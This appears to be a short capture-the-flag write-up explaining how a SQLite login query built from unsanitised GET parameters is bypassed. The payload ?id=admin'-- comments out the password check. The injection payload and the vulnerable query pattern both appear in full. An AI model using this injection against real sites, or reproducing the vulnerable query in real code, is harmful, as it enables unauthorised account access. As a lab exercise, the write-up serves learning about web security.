 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 37
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/ee1b1690-7edb-48f2-9c67-11fe997c203d)

We are provided with the SQLite query:

```sqlite
SELECT id FROM member WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

In SQLite the comment character is `--`.

If we provide the following URI parameter:

```
?id=admin'--
```

The resultant query becomes:

```sqlite
SELECT id FROM member WHERE id='admin'--' AND pw=''
```

![2](https://github.com/Kunull/Write-ups/assets/110326359/d8bbcea4-8ed4-43df-87be-e2c7d20fe5f0)
